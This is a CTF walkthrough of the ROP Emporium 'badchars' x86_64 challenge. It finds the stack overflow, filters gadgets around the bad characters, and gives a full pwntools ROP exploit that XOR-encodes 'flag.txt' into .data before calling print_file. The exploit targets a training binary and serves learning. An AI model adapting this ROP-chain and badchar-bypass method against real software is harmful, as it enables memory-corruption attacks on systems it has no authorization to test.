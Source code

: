# badchars - 64 Bit
Program execution:
```
badchars by ROP Emporium
x86_64

badchars are: 'x', 'g', 'a', '.'
> <input_here>
```
Run checksec: `checksec ./badchars`
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```
Again, `main` call `pwnme`, which is defined in the given libbadchars.so.

Disassembling libbadchars.so shows that `pwnme` unsafely reads too many (0x200) bytes in to a 32 byte buffer at `rbp-0x40`:
```assembly
lea     rax, [rbp-0x40]
add     rax {var_28}, 0x20
mov     edx, 0x200
mov     rsi, rax {var_28}
mov     edi, 0x0
call    read

```

We also find some code that checks our input for bad characters ('x'/0x78, 'g'/0x67, 'a'/0x61, '.'/0x2E). If any of these characters are found, they will be replaced with 0xeb which will invalidate our rop chain, making it incorrect.
```c
0000095c      puts(str: "badchars are: 'x', 'g', 'a', '.'")
0000096d      printf(format: &data_ae9)
00000987      int64_t rax_2 = read(fd: 0, buf: &var_28, nbytes: 0x200)
000009f6      for (int64_t var_40 = 0; var_40 u< rax_2; var_40 = var_40 + 1)
000009dd          for (int64_t var_38_1 = 0; var_38_1 u<= 3; var_38_1 = var_38_1 + 1)
000009be              if (*(&var_28 + var_40) == *(badcharacters + var_38_1))
000009c4                  *(&var_28 + var_40) = 0xeb
```

Like in the last challenge, there is a `print_file` function which will print a file specified by the string argument (filename string address). So we want to pass "flag.txt" into this function.
Running `rabin2 -z badchars` reveals that there is no flag.txt string:
```
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000006c4 0x004006c4 11  12   .rodata ascii nonexistent
```
Let's find a writeable area of memory, where we can write our "flag.txt" string.
`readelf -S badchars`:
```
There are 29 section headers, starting at offset 0x1980:

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
  [ 0]                   NULL             0000000000000000  00000000
       0000000000000000  0000000000000000           0     0     0
  [ 1] .interp           PROGBITS         0000000000400238  00000238
       000000000000001c  0000000000000000   A       0     0     1
  [ 2] .note.ABI-tag     NOTE             0000000000400254  00000254
       0000000000000020  0000000000000000   A       0     0     4
  [ 3] .note.gnu.build-i NOTE             0000000000400274  00000274
       0000000000000024  0000000000000000   A       0     0     4
  [ 4] .gnu.hash         GNU_HASH         0000000000400298  00000298
       0000000000000038  0000000000000000   A       5     0     8
  [ 5] .dynsym           DYNSYM           00000000004002d0  000002d0
       00000000000000f0  0000000000000018   A       6     1     8
  [ 6] .dynstr           STRTAB           00000000004003c0  000003c0
       000000000000007e  0000000000000000   A       0     0     1
  [ 7] .gnu.version      VERSYM           000000000040043e  0000043e
       0000000000000014  0000000000000002   A       5     0     2
  [ 8] .gnu.version_r    VERNEED          0000000000400458  00000458
       0000000000000020  0000000000000000   A       6     1     8
  [ 9] .rela.dyn         RELA             0000000000400478  00000478
       0000000000000030  0000000000000018   A       5     0     8
  [10] .rela.plt         RELA             00000000004004a8  000004a8
       0000000000000030  0000000000000018  AI       5    22     8
  [11] .init             PROGBITS         00000000004004d8  000004d8
       0000000000000017  0000000000000000  AX       0     0     4
  [12] .plt              PROGBITS         00000000004004f0  000004f0
       0000000000000030  0000000000000010  AX       0     0     16
  [13] .text             PROGBITS         0000000000400520  00000520
       0000000000000192  0000000000000000  AX       0     0     16
  [14] .fini             PROGBITS         00000000004006b4  000006b4
       0000000000000009  0000000000000000  AX       0     0     4
  [15] .rodata           PROGBITS         00000000004006c0  000006c0
       0000000000000010  0000000000000000   A       0     0     4
  [16] .eh_frame_hdr     PROGBITS         00000000004006d0  000006d0
       0000000000000044  0000000000000000   A       0     0     4
  [17] .eh_frame         PROGBITS         0000000000400718  00000718
       0000000000000120  0000000000000000   A       0     0     8
  [18] .init_array       INIT_ARRAY       0000000000600df0  00000df0
       0000000000000008  0000000000000008  WA       0     0     8
  [19] .fini_array       FINI_ARRAY       0000000000600df8  00000df8
       0000000000000008  0000000000000008  WA       0     0     8
  [20] .dynamic          DYNAMIC          0000000000600e00  00000e00
       00000000000001f0  0000000000000010  WA       6     0     8
  [21] .got              PROGBITS         0000000000600ff0  00000ff0
       0000000000000010  0000000000000008  WA       0     0     8
  [22] .got.plt          PROGBITS         0000000000601000  00001000
       0000000000000028  0000000000000008  WA       0     0     8
  [23] .data             PROGBITS         0000000000601028  00001028
       0000000000000010  0000000000000000  WA       0     0     8
  [24] .bss              NOBITS           0000000000601038  00001038
       0000000000000008  0000000000000000  WA       0     0     1
  [25] .comment          PROGBITS         0000000000000000  00001038
       0000000000000029  0000000000000001  MS       0     0     1
  [26] .symtab           SYMTAB           0000000000000000  00001068
       0000000000000618  0000000000000018          27    46     8
  [27] .strtab           STRTAB           0000000000000000  00001680
       00000000000001f8  0000000000000000           0     0     1
  [28] .shstrtab         STRTAB           0000000000000000  00001878
       0000000000000103  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  l (large), p (processor specific)
```

So we know we need to write "flag.txt" to .data, but what ROP gadgets can we use to achieve that? We need to find `mov` gadgets that work with memory address (`[reg]` notation). We also bear in mind our bad bytes to filter out: ('x'/0x78, 'g'/0x67, 'a'/0x61, '.'/0x2E)
`ropper -f badchars --search 'mov [???], ???' -b 7867612E`:
```
0x0000000000400635: mov dword ptr [rbp], esp; ret;
0x0000000000400634: mov qword ptr [r13], r12; ret;
```
So we have 1 gadgets that lets us move the value in `r12` into the address specified by the value of `r13`. So now we need gadgets to pop data off the stack into `r12` and `r13`
`ropper -f badchars --search 'pop r12; pop r13;' -b 7867612E`:
```
[INFO] File: badchars
0x000000000040069c: pop r12; pop r13; pop r14; pop r15; ret;
```
We have a gadget that will let us pop `r12` and `r13` as needed but also `r14` and `r15` which we can just load dummy data into.
Since we can only move 8 bytes at a time, we will have to do 2 moves. One for "flag.txt" and one for "\x00\x00\x00\x00\x00\x00\x00\x00" so that our string ends with a null terminator.
Each time we write 8 bytes, remember we need to offset the .data address to write to, by 8.

However we aren't done. We have to account for the fact that 'g', 'a' and '.' are bad bytes but they are required to represent the string "flag.txt". We'll need to encrypt this string in our exploit to bypass badchar checks, then we can decrypt it once it's already in memory.
An easy encryption technique is `xor`.
`ropper -f badchars --search 'xor' -b 7867612E`:
```
[INFO] File: badchars
0x0000000000400628: xor byte ptr [r15], r14b; ret;
0x0000000000400629: xor byte ptr [rdi], dh; ret;
```
Luckily for us, we have an `xor` gadget so this is actually a viable technique. Since the `xor` is done byte at a time (lowest byte of the 8-byte register, as we're deal with little endian), we'll a gadget to load target address into `r15`. To load our bitmask (for `xor`) into `r14`, we'll do that with our previous gadget that loads `r12-r15`.
`ropper -f badchars --search 'pop r15' -b 7867612E`:
```
[INFO] File: badchars
0x00000000004006a2: pop r15; ret;
```
And lastly we just need a gadget to get our `data`(string) address into `rdi` to set our arg for `print_file`.
`ropper -f badchars --search 'pop rdi' -b 7867612E`:
```
[INFO] File: badchars
0x00000000004006a3: pop rdi; ret;
```

Exploit script:
```python
#!/usr/bin/python3

from pwn import *

PROG_NAME = "./badchars"

p = process(PROG_NAME)
elf = p.elf
rop = ROP(elf)

if args.ATTACH:
    gdb.attach(p, '''break main''')
    sleep(5)

bad_bytes = b'xga.'
# this XOR will just capitalise essentially
bitmask = 1 << 5

data_addr = 0x0000000000601028
mov_ptr_r13_r12_addr = 0x0000000000400634       # mov qword ptr [r13], r12; ret;
pop_r12_r13_r14_r15_addr = 0x000000000040069c   # pop r12; pop r13; pop r14; pop r15; ret;
xor_ptr_r15_r14_addr = 0x0000000000400628       # xor byte ptr [r15], r14b; ret;
pop_r15_addr = 0x00000000004006a2               # pop r15; ret;
pop_rdi_addr = 0x00000000004006a3               # pop rdi; ret;
p.recvuntil(b'> ')

payload = b'A' * (0x20 + 0x8)

for i, string in enumerate([b'flag.txt', b'\x00'*8]):
    # build our string, 8 bytes at a time

    payload += p64(pop_r12_r13_r14_r15_addr)

    # xor badchars to bypass badchars check
    # if we don't limit xor to badchars,
    # we actually exceed an 0x200 byte payload
    for c in string:
        if c in bad_bytes:
            payload += p8(c ^ bitmask)
        else:
            payload += p8(c)

    payload += p64(data_addr + i*8)
    payload += p64(bitmask)
    payload += b'AAAAAAAA'
    payload += p64(mov_ptr_r13_r12_addr)

    for j in range(8):
        if string[j] in bad_bytes:
            # in-memory data manipulation to undo xor
            payload += p64(pop_r15_addr)
            payload += p64(data_addr + i*8 + j)
            payload += p64(xor_ptr_r15_r14_addr)


# with our .data set up, we can call print_file
payload += p64(pop_rdi_addr)
payload += p64(data_addr)
payload += p64(elf.symbols['print_file'])

p.sendline(payload)

p.interactive()

```

And we get the flag:
```
Thank you!
ROPE{a_placeholder_32byte_flag!}
```